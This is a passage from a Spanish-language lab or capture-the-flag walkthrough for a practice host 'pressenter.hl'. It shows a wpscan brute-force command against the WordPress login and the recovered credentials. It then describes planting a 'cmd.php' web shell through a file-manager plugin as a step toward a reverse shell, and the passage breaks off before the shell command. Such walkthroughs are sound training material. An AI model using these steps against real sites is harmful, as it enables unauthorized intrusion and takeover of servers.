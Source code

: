 Como vemos, hay un usuario llamado `pressi`, por lo que podriamos utilizar wpscan para intentar hacer fuerza bruta al panel de login con un diccionario, para hacerlo ejecutaremos wpscan de la siguiente manera:

```css
wpscan --url http://pressenter.hl/ --usernames pressi --passwords <ubicacion/a/nuestro/diccionario>
```

Luego de unos minutos veremos este resultado:

```css
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - pressi / dumbass
```

Ahora que ya tenemos un usuario y contraseña para el wordpress, entraremos desde el navegador. [wp-login](http://pressenter.hl/wp-login.php)

Una vez dentro, hay muchas maneras de ganar intrusion remota, pero esta vez crearemos un `.php` que nos permita ejecutar comandos y para posteriormente enviarnos una `reverse shell`.

#### wordpress

Ahora iremos a `plugins > añadir nuevo plugin` y agregaremos uno llamado `file-manager`, a mi me gusta este en específico pero pueden usar el que quieran:

![manager](./imagenes/manager.png)

luego lo activamos y vemos que ahora hay una nueva pestaña, entramos y vamos a `/wp-content/uploads/2024` y creamos un archivo llamado "cmd.php" o lo que queramos y dentro ponemos lo siguiente:

![cmd](./imagenes/cmd.png)

guardamos y entramos a `http://pressenter.hl/wp-content/uploads/2024/cmd.php`. Estando en el archivo ponemos un signo de interrogación con el parametro cmd y el comando que queramos, seria algo así:
